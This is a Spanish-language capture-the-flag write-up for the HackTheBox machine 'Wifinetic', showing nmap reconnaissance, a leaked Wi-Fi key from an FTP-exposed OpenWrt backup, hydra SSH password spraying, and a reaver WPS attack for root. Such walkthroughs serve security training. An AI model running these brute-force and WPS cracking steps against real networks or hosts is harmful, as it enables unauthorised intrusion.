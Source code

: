 ```yaml
---
title: HackTheBox - Wifinetic
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Cracking WPA/WPA2 Password']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Wifinetic/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Wifinetic Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Cracking WPA/WPA2 Password**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Wifinetic/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Wifinetic/02-versions.png)

* Como está habilitada la autenticación 'anónima' en FTP, listamos los ficheros existentes y los descargamos

c. Con los ficheros en nuestra máquina, listamos toda la información posible.

```bash
❯ 7z x backup-OpenWrt-2023-07-26.tar
❯ cat config/wireless
    <SNIP>
    option key 'VeRyUniUqWiFIPasswrd1!'

❯ cat passwd

root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
```

* Guardamos estos nombres de usuario en una fichero y realizaremos un ataque de fuerza bruta al servicio ssh con hydra

    ```bash
    ❯ cat passwd | awk '{print $1}' FS=':' > users.txt
    ❯ hydra -L users.txt -p 'VeRyUniUqWiFIPasswrd1!' ssh://10.10.11.247 -t 4

    [22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
    ```

### Escalada de Privilegios 💹

a. Contamos con múltiples interfaces de red y vemos una **capability** asignada a 'reaver'

```bash
netadmin@wifinetic:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 10.10.11.247  netmask 255.255.254.0  broadcast 10.10.11.255

mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    unspec 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255

wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255

wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
    ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)

netadmin@wifinetic:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

> **Reaver** es una herramienta usado para pentesting en redes que tienen habilitado el protocolo WPA/WPA2
{: .prompt-info }

b. Para usar esta herramienta necesitamos una interfaz de red en modo monitor 'mon0', la dirección MAC y el canal en el cual opera esta interfaz

```bash
netadmin@wifinetic:~$ iw dev

<SNIP>
phy#0
    Interface wlan0
        ifindex 3
        wdev 0x1
        addr 02:00:00:00:00:00
        ssid OpenWrt
        type AP
        channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
        txpower 20.00 dBm

netadmin@wifinetic:~$ reaver  -i mon0 -b 02:00:00:00:00:00 -c 1 -vv

<SNIP>
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
```

* Con la credencial antes obtenida podemos acceder como root al sistema

    ```bash
    netadmin@wifinetic:~$ su root
    Password: WhatIsRealAnDWhAtIsNot51121!
    root@wifinetic:/home/netadmin#
    ```